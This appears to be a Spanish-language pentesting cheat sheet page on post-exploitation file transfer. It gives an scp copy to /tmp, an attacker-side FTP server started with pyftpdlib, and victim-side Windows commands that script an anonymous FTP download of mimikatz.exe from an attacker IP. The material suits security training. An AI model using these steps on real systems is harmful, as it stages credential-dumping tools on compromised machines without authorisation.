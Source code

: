 ```yaml
---
layout: article
title: Pentesting - Post-explotación
aside:
  toc: true
sidebar:
  nav: side
header:
  theme: dark
  background: black
---
```


<h2>Transferencia de información</h2>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">SSH</div>
</div>

~~~bash
scp <binario> <user>@<ip>:/tmp
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">FTP</div>
</div>

**Máquina Atacante**

Levantar un servidor FTP en la máquina atacante:
~~~bash
pip3 install pyftpdlib ; python3 -m pyftpdlib -p 21
~~~

**Máquina Víctima**

Guardar comandos FTP en un fichero dentro del sistema Windows:

~~~bash
echo open 192.168.1.150 21 > ftp.txt
echo USER anonymous >> ftp.txt
echo anonymous >> ftp.txt
echo bin >> ftp.txt
echo GET mimikatz.exe >> ftp.txt
echo bye >> ftp.txt
~~~

Ejecutar comandos ftp para descargar el binario:

~~~bash
ftp -n -v -s:ftp.txt"
~~~